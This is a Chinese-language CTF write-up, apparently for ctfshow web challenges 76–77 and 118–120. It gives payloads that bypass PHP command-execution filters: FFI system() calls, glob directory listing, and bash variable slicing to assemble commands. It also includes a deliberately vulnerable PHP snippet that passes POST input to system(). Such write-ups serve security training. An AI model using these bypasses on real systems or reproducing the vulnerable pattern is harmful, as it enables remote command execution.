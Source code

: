 
#### web76

和上一题的payload一样

---

#### web77

[FF1拓展(php7.4开始才有)](https://www.laruence.com/2020/03/11/5475.html)

**payload**

```
c=$a=new DirectoryIterator('glob:///*');foreach($a as $f){echo($f->__toString()." ");}exit(0);

c=?><?php $ffi = FFI::cdef("int system(const char *command);");$ffi->system("/readflag >1.txt");exit();
```

---

### 类型五

运用环境变量构建命令

#### web118

bash内置变量利用

**payload**

```
${PATH:~A}${PWD:~A} ????.???
```

---

#### web119

**payload**

```
${USER:~${PHP_VERSION:~A}:${PHP_VERSION:~A}} ????.???
```

---

#### web120

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|PATH|BASH|HOME|\/|\(|\)|\[|\]|\\\\|\+|\-|\!|\=|\^|\*|\x26|\%|\<|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

?>
```